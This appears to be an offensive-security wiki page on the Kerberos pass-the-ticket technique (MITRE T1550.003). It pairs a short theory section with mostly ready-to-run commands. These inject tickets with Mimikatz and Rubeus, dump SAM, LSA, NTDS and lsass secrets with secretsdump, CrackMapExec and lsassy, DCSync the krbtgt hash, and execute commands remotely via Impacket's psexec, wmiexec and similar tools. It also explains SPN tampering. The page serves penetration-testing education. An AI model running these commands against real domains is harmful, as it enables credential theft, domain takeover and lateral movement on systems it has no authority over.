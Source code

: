```yaml
---
description: MITRE ATT&CK™ Sub-technique T1550.003
---
```


# Pass the ticket

## Theory

There are ways to come across ([cached Kerberos tickets](../credentials/dumping/cached-kerberos-tickets.md)) or forge ([overpass the hash](ptk.md), [silver ticket](forged-tickets.md#silver-ticket) and [golden ticket](forged-tickets.md#golden-ticket) attacks) Kerberos tickets. A ticket can then be used to authenticate to a system using Kerberos without knowing any password. This is called [Pass the ticket](ptt.md). Another name for this is Pass the Cache (when using tickets from, or found on, UNIX-like systems). 

## Practice

{% hint style="info" %}
**Tip: convert ticket to UNIX <-> Windows format**

To convert tickets between UNIX/Windows format with [ticketConverter.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py).

```bash
# Windows -> UNIX
ticketConverter.py $ticket.kirbi $ticket.ccache

# UNIX -> Windows
ticketConverter.py $ticket.ccache $ticket.kirbi
```
{% endhint %}

### Injecting the ticket

* On Windows systems, tools like [Mimikatz](https://github.com/gentilkiwi/mimikatz) and [Rubeus](https://github.com/GhostPack/Rubeus) inject the ticket in memory. Native Microsoft tools can then use the ticket just like usual.
* On UNIX-like systems, the path to the `.ccache` ticket to use has to be referenced in the environment variable `KRB5CCNAME`

{% tabs %}
{% tab title="UNIX-like" %}
Once a ticket is obtained/created, it needs to be referenced in the `KRB5CCNAME` environment variable for it to be used by others tools.

```bash
export KRB5CCNAME=$path_to_ticket.ccache
```
{% endtab %}

{% tab title="Windows" %}
The most simple way of injecting the ticket is to supply the `/ptt` flag directly to the command used to request/create a ticket. Both [mimikatz](https://github.com/GhostPack/Rubeus) and [Rubeus](https://github.com/GhostPack/Rubeus) accept this flag.

This can also be done manually with [mimikatz](https://github.com/GhostPack/Rubeus) or [Rubeus](https://github.com/GhostPack/Rubeus).

```bash
# use a .kirbi file
kerberos::ptt $ticket_kirbi_file

# use a .ccache file
kerberos::ptt $ticket_ccache_file
```

```bash
Rubeus.exe ptt /ticket:$ticket_kirbi_file
```

It is then possible to list the tickets in memory using the `klist` command.
{% endtab %}
{% endtabs %}

### Passing the ticket

* On Windows, once Kerberos tickets are injected, they can be used natively.
* On UNIX-like systems, once the `KRB5CCNAME` variable is exported, the ticket can be used by tools that support Kerberos authentication.

{% tabs %}
{% tab title="Credentials dumping" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) scripts like [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) (Python) have the ability to remotely dump hashes and LSA secrets from a machine.

```bash
secretsdump.py -k $TARGET
```

[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) (Python) has the ability to do it on a set of targets. The `bh_owned` has the ability to set targets as "owned" in [BloodHound](https://github.com/BloodHoundAD/BloodHound) (see [dumping credentials from registry hives](../credentials/dumping/#windows-computer-registry-hives)).

```bash
crackmapexec smb $TARGETS -k --sam
crackmapexec smb $TARGETS -k --lsa
crackmapexec smb $TARGETS -k --ntds
```

[Lsassy](https://github.com/Hackndo/lsassy) (Python) has the ability to do it with higher success probabilities as it offers multiple dumping methods. This tool can set targets as "owned" in [BloodHound](https://github.com/BloodHoundAD/BloodHound). It works in standalone but also as a [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) module (see [dumping credentials from lsass process memory](../credentials/dumping/#windows-computer-lsass-exe)).

```bash
crackmapexec smb $TARGETS -k -M lsassy
crackmapexec smb $TARGETS -k -M lsassy -o BLOODHOUND=True NEO4JUSER=neo4j NEO4JPASS=Somepassw0rd
lsassy -k $TARGETS
```

On Windows, once the ticket is injected, it will natively be used when accessing a service, for example with [Mimikatz](https://github.com/gentilkiwi/mimikatz) to extract the `krbtgt` hash.

```bash
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /user:krbtgt
```
{% endtab %}

{% tab title="Command execution" %}
Some [Impacket](https://github.com/SecureAuthCorp/impacket) scripts (Python) enable testers to execute commands on target systems with Kerberos support.

```bash
psexec.py -k 'DOMAIN/USER@TARGET'
smbexec.py -k 'DOMAIN/USER@TARGET'
wmiexec.py -k 'DOMAIN/USER@TARGET'
atexec.py -k 'DOMAIN/USER@TARGET'
dcomexec.py -k 'DOMAIN/USER@TARGET'
```

[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) (Python) has the ability to do it on a set of targets

```bash
crackmapexec winrm $TARGETS -k -x whoami
crackmapexec smb $TARGETS -k -x whoami
```

On Windows, legitimate tools like the [sysinternals](https://docs.microsoft.com/en-us/sysinternals/) [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) ([download](https://live.sysinternals.com)) can then be used to open a cmd using that ticket.

```bash
.\PsExec.exe -accepteula \\$TARGET cmd
```
{% endtab %}
{% endtabs %}

### Modifying the SPN

When requesting access to a service, a Service Ticket is used. In contains enough information about the user to allow the destination service to decide to grant access or not, without asking the Domain Controller. These information are stored in a protected blob inside the ST called PAC (Privilege Attribute Certificate). In theory, the user requesting access can't tamper with that PAC.

Another information stored in the ST, outside of the PAC, and unprotected, called `sname`, indicates what service the ticket is destined to be used for. This information is basically the SPN (Service Principal Name) of the target service. It's split into two elements: the service class, and the hostname.

Their are multiple service classes for multiple service types (LDAP, CIFS, HTTP and so on) (more info on [adsecurity.org](https://adsecurity.org/?page_id=183)). The problem here is that since the SPN is not protected, there are scenarios (e.g. services configured for [constrained delegations](delegations/constrained.md)) where the service class can be modified in the ticket, allowing attackers to have access to other types of services.

This technique is implemented and attempted by default in all [Impacket](https://github.com/SecureAuthCorp/impacket) scripts when doing pass-the-ticket. Impacket calls this "AnySPN". 

## Resources
